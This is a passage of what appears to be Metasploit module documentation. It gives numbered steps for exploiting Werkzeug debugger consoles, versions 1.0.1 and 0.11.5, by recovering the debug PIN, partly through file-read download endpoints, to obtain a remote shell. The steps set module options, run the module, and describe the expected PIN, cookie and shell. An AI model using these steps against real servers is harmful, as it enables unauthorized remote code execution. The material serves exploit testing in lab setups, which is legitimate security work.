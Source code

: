 ### Werkzeug 1.0.1 using /console

20. Do: `unset METHOD`
21. Do: `unset TARGETURI`
22. Do: `unset REQUESTBODY`
23. Do: `set RPORT 81`
24. Do: `set TARGET 1`
25. Do: `set MACADDRESS <mac-address>`
26. Do: `set MACHINEID <machine-id>`
27. Do: `set FLASKPATH /usr/local/lib/python2.7/site-packages/flask/app.pyc`
28. Do: `run`
29. You should see a PIN and a cookie being logged then get a shell.

### Werkzeug 1.0.1 using /debugger (GET)

30. Do: `set TARGETURI /getdownload?file=`
31. Do: `run`
32. You should see a PIN and a cookie being logged then get a shell.

### Werkzeug 1.0.1 using debugger (POST)

33. Do: `set METHOD POST`
34. Do: `set TARGETURI /postdownload`
35. Do: `set REQUESTBODY file=`
36. Do: `run`
37. You should see a PIN and a cookie being logged then get a shell.

### Werkzeug 0.11.5 using /console

38. Do: `unset METHOD`
39. Do: `unset TARGETURI`
40. Do: `unset REQUESTBODY`
41. Do: `set RPORT 82`
42. Do: `set TARGET 2`
43. Do: `set MACADDRESS <mac-address>`
44. Do: `set MACHINEID <machine-id>`
45. Do: `run`
46. You should see a PIN and a cookie being logged then get a shell.

### Werkzeug 0.11.5 using /debugger (GET)

47. Do: `set TARGETURI /getdownload?file=`
48. Do: `run`
49. You should see a PIN and a cookie being logged then get a shell.

### Werkzeug 0.11.5 using debugger (POST)

50. Do: `set METHOD POST`
51. Do: `set TARGETURI /postdownload`
52. Do: `set REQUESTBODY file=`
53. Do: `run`
54. You should see a PIN and a cookie being logged then get a shell.
